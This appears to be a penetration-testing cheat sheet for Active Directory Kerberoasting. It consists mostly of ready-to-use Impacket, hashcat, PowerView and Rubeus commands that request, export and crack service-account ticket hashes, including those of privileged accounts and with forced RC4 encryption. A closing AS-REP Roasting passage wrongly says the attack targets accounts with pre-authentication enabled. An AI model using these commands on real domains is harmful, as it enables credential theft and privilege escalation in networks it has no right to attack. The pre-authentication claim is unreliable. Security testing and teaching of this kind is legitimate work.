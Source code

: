 ```shell title="Kerberoasting from Linux"
# Impacket: Getting all SPN accounts that can be kerberoasted
impacket-GetUserSPNs.py -dc-ip '<IP>' '<DOMAIN>/<USERNAME>'

# Impacket: Getting all SPN accounts hashes
impacket-GetUserSPNS  -dc-ip '<IP>' '<DOMAIN>/<USERNAME>' -request -output '<FILENAME>'

# Hashcat: Cracking TGS Ticket
hashcat -m 13100 '<TGS-TICKET-HASH>' /usr/share/wordlists/rockyou.txt
```

```powershell title='Kerberosting from Windows'
# PowerView: Importing Module
Import-Module .\PowerView.ps1

# PowerView: Getting all SPN accounts
Get-DomainUser * -SPN | Select SamAccountName

# PowerView: Getting a TGS Ticket in hashcat format
Get-DomainUser -Identity '<USERNAME>' |  Get-DomainSPNTicket -Format Hashcat

# PowerView: Exporting TGS Ticket
Get-DomainUser -Identity '<USERNAME>' | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\TGSTicket.csv -NoTypeInformation
```

```powershell title='Kerberoasting with Rubeus'
# Rubeus: Getting Information of Active Diretory
.\Rubeus.exe kerberoast /stats

# Rubeus: Exporting TGS Ticket from a privileged user
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# Rubeus: Exporting TGS Ticket from a specific user
.\Rubeus.exe kerberoast /user:'<USERNAME>' /nowrap

# PowerView: Getting Information About Encryption Method (RC4: Weak, AES: Strong)
Get-DomainUser '<USERNAME>' -Properties SAMAccount,ServicePrincipalName,MSDS-SupportedEncryptionTypes

# Rubeus: Exporting TGS Ticket with rc4 encryption
.\Rubeus.exe kerberoast /tgtdeleg /user:'<SPN>' /nowrap
```

The likelihood of  Service Principal Name (SPN) having weak credentials is medium because the system administrator could had setup the service principal name account with weak credentials for testing a service and once it was deployed to production he forgot to change it to something more complex.

### AS-REP Roasting

AS-REP Roasting is a technique that enables us to obtain Ticket Granting Ticket (TGT) for any domain account that has `Kerberos Pre-Authentication` settings enabled on them. The reason some domain users has that option enabled is because the vendor of a application may require service principal name to be configured that way.
